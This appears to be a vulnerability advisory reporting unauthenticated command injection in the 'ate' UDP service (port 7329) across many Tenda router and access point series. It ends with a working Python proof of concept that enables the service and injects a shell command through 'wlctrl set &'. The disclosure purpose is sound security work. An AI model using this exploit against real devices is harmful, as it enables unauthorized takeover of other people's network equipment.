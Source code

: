 # summary

There is command injection in the ate module in many series of tenda products

# affected

AC series (AC1206, AC7, AC23 have been submitted separately)

[11AC Routers-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/11ac-routers.html)

G series

[Wired Enterprise Router-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/wired-enterprise-router.html)

W series

[In-wall AP-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/in-wall-ap.html)

I series

[Ceiling AP-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/ceiling-ap.html)

O series

[Outdoor CPE-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/outdoor-cpe.html)

A series

[Range Extenders-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/range-extenders.html)

VD series

[xDSL Modem Routers-Tenda US (tendacn.com)](https://www.tendacn.com/us/products/xdsl-modem.html)

# Vulnerabilities

In the above mentioned devices, an `ate` processing function is defined in httpd(In some devices this function is `formAte` instead of `TendaAte`)

![2024-10-04_173619](2024-10-04_173619.png)

This function may have two situations
1. This function directly implements ate processing

   ![2024-10-05_191103](2024-10-05_191103.png)

2. Implements ate processing by starting /bin/ate or /sbin/td_ate

   ![2024-10-05_191334](2024-10-05_191334.png)

But the core function processing function of both methods is the same 

![191919](191919.png)

In this function, port `7329` will be opened using udp

Then receive the message and enter the corresponding function operation according to the string, without any filtering of the input during the process

However, there are several dangerous functions in the processed functions that can lead to command injection

Just send a message like `operation arg....` to reach many dangerous functions

For example

**ate_ifconfig_set**

![2024-10-05_193344](2024-10-05_193344.png)

**ate_iwpriv_set**

![2024-10-05_193712](2024-10-05_193712.png)

**wlctrl**

![2024-10-05_193516](2024-10-05_193516.png)

**set_finishtest_flag**

![2024-10-05_194212](2024-10-05_194212.png)

There are actually some hidden

# POC

Take `Tenda g3 Wired Enterprise Router` as an example

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'wlctrl set &' + command

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```

# patch

can add access control in port `7329` or filter user input
